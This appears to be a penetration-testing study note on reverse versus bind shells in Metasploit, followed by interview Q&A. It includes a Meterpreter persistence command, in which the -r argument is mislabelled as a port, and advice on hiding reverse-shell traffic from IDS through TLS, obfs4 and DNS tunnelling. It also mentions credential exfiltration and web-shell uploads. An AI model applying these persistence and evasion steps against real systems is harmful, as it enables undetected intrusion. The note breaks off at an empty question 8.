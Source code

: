 # Reverse Shell vs. Bind Shell in Metasploit

## Reverse Shell: Attacker's VM opens Ports & Listen
- Type of `shell where the target machine connects back to the attacker's machine.`
- The target machine executes the payload and initiates a connection to the attacker's machine.
- The attacker listens for incoming connections on a specific port.
- Commonly `used when the target machine is behind a firewall or NAT`, making it difficult to connect directly to it.

## Bind Shell: Target's VM opens Ports & Listen
- Type of `shell where the target machine opens up a port and waits for the attacker to connect to it.`
- The target machine executes the payload and listens on a specific port.
- The attacker connects to the target machine’s listening port.
- Commonly `Useful when the attacker cannot set up a listener or if the target machine allows inbound connections.`

---
---

# Interview QnA:

## 1. Suppose you have successfully exploited a vulnerability in a web application and you now need `to establish a remote shell. The target system is behind a strict firewal` that blocks incoming connections. Which type of shell would you use, bind or reverse, and why?
- `Reverse shell as firewall allows outbound traffic & target VM will connect back to Attcker's VM`

## 2. Imagine you are testing a corporate network and you have compromised a server. You need `to maintain a persistent connection with this server`. Describe the steps you would take to set up a reverse shell that can reconnect automatically if the connection is lost.
- You will need to set up a persistence script that will run every time the target machine starts up. `set persistence true` after setting up the payload.
- To make the reverse shell persistent, you will need to run the persistence script `run persistence -U -i 5 -p 4444 -r <LPORT>` in the meterpreter session:

> Data Exfiltration: They use modules to search for sensitive files and credentials stored on the server, copying them to their machine for analysis.

## 3. You are working in a restricted environment where outgoing traffic is `heavily monitored` and only a few ports are open. How would you `configure a reverse shell to evade detection and ensure the shell remains undetected`?
- `Choose commonly allowed ports` (e.g., 80 for HTTP, 443 for HTTPS) to send reverse shell traffic.
- `Encrypt the traffic using SSL/TLS` (e.g., with tools like OpenSSL) to make it appear as regular HTTPS traffic
- `Use tools like obfsproxy or obfs4 to obfuscate the traffic`, making it look like legitimate HTTP or other benign traffic.
- `Utilize DNS tunneling techniques` such as dnscat2 or iodine to encapsulate the reverse shell traffic within DNS requests,

## 4. During a penetration test, you find that the `target system has a bind shell running on a non-standard port`. Explain how you would connect to this bind shell from your machine. `What tools would you use?`
- Netcat (nc): Netcat is a versatile networking utility that can create TCP or UDP connections to specified ports.
- Telnet: Telnet can be used if the bind shell supports plaintext communication and doesn't require encryption.

## 5. Suppose you're unable to establish a direct connection via a bind or reverse shell due to strict network policies. What `alternative methods or tools could you use to achieve remote access` to the target system?
- XSS, CSRF, or other browser vulnerabilities to execute code on target systems.
- Exploit a known vulnerability in the web application (e.g., SQL injection) to upload a PHP web shell.

## 6. You have a reverse shell running on a compromised system, and you need `to transfer a large file from your local machine to the target system. Explain how you would accomplish this securely and efficiently.`
- Compress the file using `gzip/zip` and transfer using `SCP or SFTP` 

## 7. While performing a penetration test, you find that the target system is using an Intrusion Detection System (IDS) that can detect common shell connections. How would you `obfuscate your reverse shell traffic to avoid detection by the IDS?`
- `Encrypting your reverse shell traffic` prevents the IDS from inspecting and understanding the payload.
- `Use HTTPS/TLS` as it makes your traffic appear as legitimate web traffic, often bypassing IDS rules that focus on typical shell connections.

## 8. 





